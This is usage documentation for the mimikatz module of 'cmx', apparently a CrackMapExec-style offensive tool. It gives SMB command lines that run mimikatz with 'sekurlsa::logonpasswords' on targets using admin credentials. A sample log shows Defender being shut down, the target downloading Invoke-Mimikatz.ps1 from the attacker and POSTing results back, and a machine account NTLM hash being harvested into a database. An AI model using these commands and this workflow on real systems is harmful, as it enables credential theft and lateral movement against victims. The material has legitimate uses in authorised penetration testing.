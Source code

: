 ----------------------------------------------------------------------------------------------------
## Specifying Module Options
Module options are specified using -mo after the module name  
All options should be specified in the form KEY=VALUE  
When using several options, seperate with a space  
    i.e -mo KEY=VALUE KEY=VALUE KEY=VALUE  
```
~# cmx smb -M <module_name> -mo KEY=VALUE [KEY=VALUE] [KEY=VALUE]

cmx --verbose smb 192.168.1.1 -u username -p password -M mimikatz -mo COMMAND='privilege::debug sekurlsa::logonpasswords exit'
```

----------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------



# Module Commands Reference
----------------------------------------------------------------------------------------------------
## mimikatz      
Executes Invoke-Mimikatz.ps1 script.
This contains the full functionality of mimikatz.  
I'll try to keep this up-to-date with new releases  

If it isnt up-to-date you can recompile the Invoke-Mimikatz script yourself using the included Invoke-UpdateMimikatzScript
See that script itself for information on how-to  

Tested on Window 7, Windows 2012, Windows 10-(1804, 1809, 1904), Windows 2016    
Windows 10.0 Build 18362 x64  
Windows 10.0 Build 17763 x64   
Windows Server 2012 R2 Datacenter 9600 x64  
Windows 6.1 Build 7601 x64  
Windows 7 Ultimate 7601 Service Pack 1 x64   
  
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      | 

**Options:**
```
For a full list of options see https://github.com/gentilkiwi/mimikatz/wiki
```
**Example Usages:**
Single Target:  
```
~# cmx smb 10.10.33.104 -u Administrator -p AdminSuper\!23 -M mimikatz

Sep.02.19 14:16:34  SMB         10.10.33.104:445  DESKTOP-HVIF7F2 [*] Windows 10.0 Build 18362 x64 (domain:OCEAN) (signing:False) (SMBv:3.0)
Sep.02.19 14:16:34  SMB         10.10.33.104:445  DESKTOP-HVIF7F2 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!) 
			[!] Sleeping to allow defender process to finish shutting down[!] 
Sep.02.19 14:16:43  MIMIKATZ    10.10.33.104:445          [+] Executed launcher
Sep.02.19 14:16:43  MIMIKATZ                         [*] Waiting on 1 host(s)
Sep.02.19 14:16:44  MIMIKATZ    10.10.33.104         [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Sep.02.19 14:16:55  MIMIKATZ    10.10.33.104         [*] - - "POST / HTTP/1.1" 200 -
Sep.02.19 14:16:55  MIMIKATZ    10.10.33.104         ocean.depth\DESKTOP-HVIF7F2$:7e879d549ad5b820267e39f488cc5020
Sep.02.19 14:16:55  MIMIKATZ    10.10.33.104         [+] Added 1 credential(s) to the database
```